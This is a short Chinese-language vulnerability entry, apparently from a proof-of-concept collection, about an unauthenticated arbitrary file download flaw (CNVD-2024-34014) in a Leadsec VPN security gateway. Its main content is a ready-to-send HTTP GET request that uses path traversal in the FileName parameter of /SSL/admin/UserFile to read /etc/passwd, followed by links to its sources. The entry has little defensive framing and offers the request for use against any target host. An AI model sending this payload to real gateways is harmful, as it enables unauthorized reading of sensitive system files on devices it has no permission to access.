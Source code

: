 # 网御VPN安全网关存在任意文件下载漏洞(CNVD-2024-34014)

网御VPN安全网关存在任意文件下载漏洞，攻击者可利用该漏洞在未经身份验证的情况下下载passwd等敏感文件。

## poc

```javascript
GET /SSL/admin/UserFile?FileName=../../../etc/passwd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```



## 漏洞来源

- https://mp.weixin.qq.com/s/UXujNlADrykn2NSREuwDWQ
- [国家信息安全漏洞共享平台 (cnvd.org.cn)](https://www.cnvd.org.cn/flaw/show/CNVD-2024-34014)